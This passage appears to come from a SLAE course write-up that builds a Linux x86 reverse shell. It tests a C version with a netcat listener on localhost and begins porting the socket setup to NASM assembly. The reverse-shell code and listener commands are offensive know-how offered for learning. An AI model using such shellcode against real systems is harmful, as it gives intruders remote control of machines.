 Let's quickly compile and test the code, starting a netcat listener to catch the shell.

```
absolomb@ubuntu:~/SLAE/assignments/2$ gcc reverseshell.c -o reverseshell
absolomb@ubuntu:~/SLAE/assignments/2$ ./reverseshell
```
```
absolomb@ubuntu:~$ nc -lvnp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from [127.0.0.1] port 1234 [tcp/*] accepted (family 2, sport 60270)
id
uid=1000(absolomb) gid=1000(absolomb) groups=1000(absolomb),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare)
```

Now we can begin by breaking down the C code into basically four sections to help port to Assembly.

- Creating a socket
- Connecting to an IP and port
- Redirecting STDIN, STDOUT, and STDERR
- Executing the shell

As you can see there are less things to do this time around compared to the bind shell, so we should have less assembly to write.

## Creating a Socket

We pretty much need to do exactly what we did for our bind shell code here, so I won't go into details on finding syscall numbers from the Linux header files. Check the previous post for that. 

This time around however we'll be using some different instructions to get some of the same tasks done, and a little more efficiently. 

Instead of XOR'ing registers to zero them out and then using MOV instructions we can instead PUSH the value we want in the register to the stack and POP it into the register after.

This allows us to setup our first two arguments for setting up the socket in EAX and EBX as follows. 

```nasm
push 0x66 		; 
pop eax			; socketcall (102) and clean eax
push 0x1		;
pop ebx			; SYS_SOCKET (1) and clean ebx
```

0x66 being the socketcall() syscall and 0x1 the SYS_SOCKET argument. This trick won't work if we need 0's in a register because of the nulls it creates, so for ECX we will simply XOR itself and push that value to the stack for the 0 we need. 

The rest of the code should be familiar if you followed along in the bind shell write up.

```nasm
xor ecx, ecx		; zero out ecx
push ecx		; protocol (0)
push ebx		; SOCK_STREAM (1)
push 0x2		; AF_INET (2)
mov ecx, esp		; point ecx to top of stack
int 0x80		; execute socket

mov edi, eax		; move socket to edi
```
